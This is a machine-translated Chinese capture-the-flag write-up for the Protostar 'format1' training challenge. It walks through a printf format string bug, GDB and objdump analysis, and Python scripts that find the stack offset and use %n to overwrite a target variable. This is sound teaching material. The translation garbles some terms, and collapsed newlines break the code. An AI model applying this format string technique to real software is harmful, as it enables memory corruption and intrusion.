






# [ExpDev]漏洞利用练习|原恒星|格式 1

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-1-c5182332a69a?source=collection_archive---------1----------------------->


# 格式 1(格式字符串基本 1)

这个挑战的目标是利用格式字符串来修改任意内存位置，以打印获胜的语句。

*   链接:[https://exploit-exercises.lains.space/protostar/format1/](https://exploit-exercises.lains.space/protostar/format1/)



## 注意事项

*   `**printf(string);**`:这是这段代码中易受攻击的函数。`printf()`将*而不是*检查所提供的输入是否是预期的格式字符串，因为它被编码为接受任何字符串值。所以我们能做的只是简单地验证我们是否可以泄漏内存地址，并且也可以将任意代码写到堆栈上(**【读取】** `%p` → **【写入】** `%n`)。
*   `**if(target) {**`:这个`target`变量就是我们需要找到的。然后，通过利用格式字符串漏洞，我们将把地址写入堆栈，通过指定正确的偏移值来打印出获胜的语句。

# 拆解(GDB)

让我们反汇编二进制文件，看看在 ASM 级别做了什么:

```
**$ gdb -q format1**
Reading symbols from /opt/protostar/bin/format1...done.
**(gdb) set disassembly-flavor intel
(gdb) disassemble vuln**
```



这个程序非常简单。有趣的是，`mov eax,ds:0x8049638`将下面的地址从`.bss`(T8 段的一部分)移到`EAX`寄存器中。

下面是使用`objdump`转储二进制文件的头:

```
**$ objdump -h /opt/protostar/bin/format1**
...(snip)...**23 .data**         00000008  **08049628  08049628**  00000628  2**2
                  CONTENTS, ALLOC, LOAD, DATA
**24 .bss**          0000000c  **08049630  08049630**  00000630  2**2
                  ALLOC
...(snip)...
```

然后，如果`EAX`等于“0”，则`test eax,eax`通过将`eflags`值设置为`ZF`(=零标志)来创建条件跳转如果为“0”，则跳转；否则，它继续其执行流程。

# 剥削

## 初步侦察

如前所述，易受攻击的函数是`printf(string)`。当我们提供一个随机字符串时，它只是回显:


然而，如果我们提供一些格式字符串参数，我们会得到有趣的输出😮：



这基本上是在堆栈内存中打印出一些随机地址。但更有趣的是，如果我们输入足够多的格式字符串参数，我们实际上可以在堆栈中找到我们输入的字符串。

```
**$ ./format1 $(python -c 'print "AAAA" + "%p|" * 156') && echo**
```



滥用这一点:(1)找到一个我们可以控制的偏移量→ (2)编写一个我们希望执行的任意代码。在这种情况下，我们将只为`target`变量提供一个地址来打印获胜的语句。

## 寻找偏移

让我们编写一个快速的 python 脚本来查找偏移值:

```
**[exploit.py] - Finding Offset**#!/usr/bin/pythonimport osegg = "AAAA"def desc():
  print('[+] Running Simple Format String Spraying...')
  print('[+] Setting Egg: {0}').format(egg.encode("hex"))def spraying():
  i = 1
  while i < 200:
    c = int(i)
    p = '/opt/protostar/bin/format1 ' + egg + ("%p" * c) + "%p"
    out = os.popen(p).read()
    s = str(out)

    if egg.encode("hex") in s:
      print('[+] Egg found! ...{0}'.format(out[-30:]))
      print('[+] Found Offset: {0}'.format(i))
      break  
    else:
      i += 1
      continueif __name__ == "__main__":
  desc()
  spraying()
```

这个脚本应该是不言自明的。当我们运行这个脚本时，我们得到 132 的偏移量。



## 寻找“目标”变量地址

```
**$ objdump -t format1 |grep target**
**08049638** g     O .bss **00000004**              target
```

`target`的地址存在于`0x08049638`中。将地址转换成小端格式= `\x38\x96\x04\x08`。

## 最终利用

```
**[exploit.py] - Final Exploit**#!/usr/bin/pythonimport osegg = "\x38\x96\x04\x08"    **<-- Little-endian Formatted "target"** def desc():
  print('[+] Running Simple Format String Spraying...')
  print('[+] Setting Egg: {0}').format(egg.encode("hex"))def spraying():
  i = 1
  while i < 200:
    c = int(i)
    p = '/opt/protostar/bin/format1 ' + egg + ("%p" * c) + "%p"
    out = os.popen(p).read()
    s = str(out)

    if egg.encode("hex") in s:
      print('[+] Egg found! ...{0}'.format(out[-30:]))
      print('[+] Found Offset: {0}'.format(i))
      break  
    else:
      i += 1
      continuedef win():
  **offset = int(132)    <-- Found Offset Value**
  p = '/opt/protostar/bin/format1 ' 
  p+= egg 
  p+= ("%p" * offset) 
  p+= "%n"    **<-- Write the number of char into pointers**
  out = os.popen(p).read()
  s = str(out)if "target" in s:
    print('[+] Winning Statement: {0}'.format(out[-32:]))
    exit(0) 
  else:
    print('[-] Something Went Wrong...')
    exit(1)if __name__ == "__main__":
  desc()
  #spraying()
  win()
```

当我们运行脚本时，我们得到了漂亮的获胜语句:



感谢阅读！

## 下一个挑战:

*   [**格式 2**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-2-73ef08011a8c) —格式字符串利用:基本 2

